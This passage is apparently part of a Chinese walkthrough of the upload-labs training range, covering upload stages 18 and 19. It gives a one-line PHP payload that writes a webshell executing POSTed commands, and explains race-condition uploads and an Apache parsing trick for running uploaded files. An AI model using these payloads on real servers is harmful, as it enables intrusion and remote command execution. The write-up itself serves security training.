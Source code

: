 使用脚本处理 1.jpg,命令 php jpg_payload.php 1.jpg

使用 16 进制编辑器打开,就可以看到插入的 php 代码.将生成的 payload_1.jpg 上传.

## Pass-18-条件竞争

这一关是条件竞争的问题,这里先将文件上传到服务器,然后通过 rename 修改名称,再通过 unlink 删除文件,因此可以通过条件竞争的方式在 unlink 之前,访问 webshell.这里可以使用 burp 去发包,可以把文件内容改成下面这样

`<?php fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd]?>');?>`

反正就是为了写文件进去就对了

两个 burp 跑一跑,就会在该文件夹下面产生新的文件了

## Pass-19-条件竞争

同样的也是一个条件竞争的问题,看一下源代码可以发现这里使用类去实现相关方法,包括查看文件后缀名,大小等等

这里面的问题存在于代码将上传文件更改名字的时候给了个时间差,让我们可以去实现这个竞争效果,同样的方法

**另一种方法**

上传名字为 `shell.php.7Z` 的文件,快速重复提交该数据包,会提示文件已经被上传,但没有被重命名.

这时在上一级目录中会存在 `shell.php.7Z` 文件,利用 Apache 解析漏洞可以直接作为 php 文件访问

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/upload-labs/19.png)

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/upload-labs/20.png)
